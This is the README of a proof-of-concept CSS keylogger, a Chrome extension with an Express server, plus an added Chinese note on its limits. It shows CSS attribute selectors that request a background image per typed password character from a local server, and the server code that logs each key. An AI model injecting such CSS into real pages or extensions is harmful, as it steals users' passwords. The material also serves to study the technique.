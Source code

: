 # CSS Keylogger

Chrome extension and Express server that exploits keylogging abilities of CSS.

## To use

### Setup Chrome extension

1. Download repository `git clone https://github.com/maxchehab/CSS-Keylogging`
2. Visit `chrome://extensions` in your browser (or open up the Chrome menu by clicking the icon to the far right of the Omnibox: The menu's icon is three horizontal bars. and select Extensions under the More Tools menu to get to the same place).
3. Ensure that the Developer mode checkbox in the top right-hand corner is checked.
4. Click `Load unpacked extension…` to pop up a file-selection dialog.
5. Select the `css-keylogger-extension` in the directory which you downloaded this repository.

### Setup Express server

1. `yarn`
2. `yarn start`

### Haxking l33t passw0rds

1. Open a website that uses a controlled component framework such as React. [https://instagram.com](https://www.instagram.com/).
2. Press the extension `C` on the top right of any webpage.
3. Type your password.
4. Your password should be captured by the express server.

## How it works

This attack is really simple. Utilizing CSS attribute selectors, one can request resources from an external server under the premise of loading a `background-image`.

For example, the following css will select all input's with a `type` that equals `password` and a `value` that ends with `a`.
It will then try to load an image from `http://localhost:3000/a`.

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

Using a simple [script](https://github.com/maxchehab/CSS-Keylogging/blob/master/build.go) one can create a [css file](https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css) that will send a custom request for every ASCII character.


### 备注：

css 选择器加载外部资源，只能触发一次，例如：输入字母 ‘a’, 触发如下 css 代码

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

在服务器端通过 `req.params.key` 获取到输入的内容

```js
app.get("/:key", (req, res) => {
  process.stdout.write(req.params.key);
  return res.sendStatus(400);
});
```

当再次输入字母 ‘a’ 时，上述的 css 代码并不会再次去请求外部资源，意味
着服务器端获取不到该次输入，最终的结果是只能捕获没有重复内容的密码。

例如：

|输入|实际捕获|
---|---
12345|12345
1014333|10143
123454321|12345



